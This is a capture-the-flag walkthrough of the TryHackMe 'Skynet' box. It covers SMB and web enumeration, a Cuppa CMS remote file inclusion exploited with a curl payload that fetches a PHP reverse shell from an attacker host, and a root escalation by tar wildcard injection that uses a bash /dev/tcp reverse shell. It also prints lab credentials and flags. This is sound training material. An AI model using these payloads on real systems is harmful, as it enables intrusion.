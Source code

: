 # Skynet - THM CTF

## d0nkeyk0ng787
## COMPLETED 1302 12 MAY 22

### Box IP - 10.10.15.129

### Creds

EMAIL - milesdyson:cyborg007haloterminator
SMB - 'milesdyson:)s{A&2Z=F^n_E.B`'

### Enum

Open Ports - 22, 80, 110, 139, 143, 445

Interesting pages found with gobuster - /admin, /config, /squirrelmail

Both /admin and /config return 403s but squirrelmail provides a login page that is likely an attack vector

We see the server is running samba which might be a possible attack vector aswell

Trying to access the samba server using smbclient requires a root password but was worth a try

There is also a pop3 server on 110 which is the email server

Running the command "smbmap -H 10.10.15.129" gives us some useful information regarding shares on the samba server

We see there is a READ ONLY share named anonymous

Running the command 'smbclient //10.10.15.129/anonymous -U guest' we can take a look. Inside this share there is an attention.txt file and 3 log files

Attention.txt suggests there was a system malfunction causing all employees to have to change their passwords. Log1 looks to contain a list of potential passwords for miles dawsons account we can try bruteforce.

We can assume that miles username is 'milesdyson' as that is the name of his share on samba. So before I bruteforced it I just wanted to see if I would get any indication that the username was correct so I tried milesdyson and the first string in the log1.txt which turned out to be the username:password combo. Kinda lucky but we take those wins.

In the emails we find a password for smb, some binary and a random message that looks like rambling

Using the username and password we got from the emails we can access the milesdyson share on samba

We find an important.txt file which contains the link to a hidden page on the website

It's always worth using gobuster on a secret page like this since the page itself doesn't really have much. From gobuster we can see there is a /administrator page

On this page we see it is running a CMS named Cuppa. A simple search on exploitdb returns a known RFI vulnerability we can use to get a remote shell on the server. Using the following payload we can exploit this vulnerability.

curl -s --data-urlencode urlConfig=http://10.4.24.252:80/php-reverse-shell.php http://10.10.15.129/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php

After upgrading the shell, we can grab the user flag

### Priv Esc

We see that there is a backup script 'backup.sh' that compresses and backups the entire /var/www/html directory and puts it in milesdysons home directory. This may offer a possible route of priv esc.

GTFO bins has a tar entry which we can use to break out of a restricted shell 'tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh'

Using the following commands and starting another nc listener on 6666 we can get a root shell

printf '#!/bin/bash\nbash -i >& /dev/tcp/10.4.24.252/6666 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell

From here we can grab the root flag


### Flags

User Flag - 7ce5c2109a40f958099283600a9ae807
Root Flag - 3f0372db24753accc7179a282cd6a949
